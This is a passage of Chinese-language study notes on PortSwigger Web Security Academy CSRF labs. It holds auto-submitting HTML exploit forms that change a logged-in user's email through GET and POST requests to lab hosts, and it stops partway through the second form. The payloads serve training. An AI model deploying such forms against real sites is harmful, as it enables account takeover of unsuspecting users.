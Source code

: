 基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0a3e009e03ce668f803203d3007e007f.web-security-academy.net/my-account/change-email"
      method="GET"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <button type="submit">Submit</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

還不錯，學到一個新的攻擊手法，GET Method 也許能夠 bypass CSRF

## Lab: CSRF where token validation depends on token being present

| Dimension | Description                                                                                                                  |
| --------- | ---------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#validation-of-csrf-token-depends-on-token-being-present |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present     |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0ae500260381b8168020214a00a80023.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <button type="submit">Submit</button>
```